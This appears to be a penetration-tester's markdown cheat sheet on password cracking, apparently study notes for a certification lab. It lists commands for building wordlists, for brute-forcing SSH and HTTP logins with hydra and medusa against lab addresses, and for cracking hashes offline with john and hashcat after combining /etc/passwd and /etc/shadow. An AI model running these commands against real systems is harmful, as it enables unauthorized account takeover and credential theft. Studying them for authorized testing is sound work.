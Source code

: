 # password cracking

## references

<http://gchq.github.io/CyberChef/>
<http://openwall.info/wiki/john/sample-hashes>

## directory

```bash
/usr/share/wordlists/
/usr/share/seclist/

cewl www.megacorpone.com -m 6 -w megacorpone-cewl.txt
john --wordlist=megacorpone-cewl.txt --rules --stdout > megacorpone-john.txt

crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o crunch.txt
```

## online

### crackstation

<https://crackstation.net/>

### medusa

```bash
medusa -d
medusa -M http -q

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10

```

### hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.11.12.10

hydra 10.1.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Password!" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http-post-form.txt
```

## offline

### john

```bash
unshadow /etc/passwd /etc/shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### hashcat

```bash
hashcat --help | grep -ni ntlm
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat --help | grep -ni \$p 
hashcat -m 400 wp.hash ~/OSCP/rockyou.txt 
```
